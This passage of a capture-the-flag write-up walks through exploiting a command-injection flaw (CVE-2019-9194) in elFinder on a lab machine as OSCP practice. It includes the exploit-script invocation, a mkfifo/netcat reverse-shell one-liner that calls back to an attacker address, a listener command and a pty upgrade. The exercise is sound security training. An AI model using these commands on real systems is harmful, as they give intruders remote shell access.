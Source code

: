 When we search for this application and version number, we can clearly see it's ***command injection*** vulnerability.

We have two options:

1. Metasploit framework
2. Manual explot

## 2.1. Manual exploit

This method is recommended if you prepare for OSCP exam, because you need to understand the process. You don't want to waste that one try with MSF on the exam with easy machine...

***CVE: CVE-2019-9194***

https://www.exploit-db.com/exploits/46481

This is Python2 script, so you should convert the code to Python3 if you have problems. When you analize the script, you see that you need the picture file ***SecSignal.jpg*** in the same folder as the script, that will be uploded, and used for command injection.

Make some regular ***.jpg*** file and run the script:

```shell
python3 elfinder_python3.py http://files.lookup.thm/elFinder/
```

We got the shell!!!

![](Images/initial_shell.png)

This shell was unstable for me, so I transferred the bash reverse shell file (rev.sh) to the attacking machine via python web server:

```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc YOUR_IP 4444 >/tmp/f
```

and made a nc listener.

```shell
nc -lvnp 4444
```

When we run the bash reverse shell on target machine we get much better shell which we need to further stabilizate, so it doesn't crash on “CTRL + C” command. You are probably familiar with this stabilization technique:

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
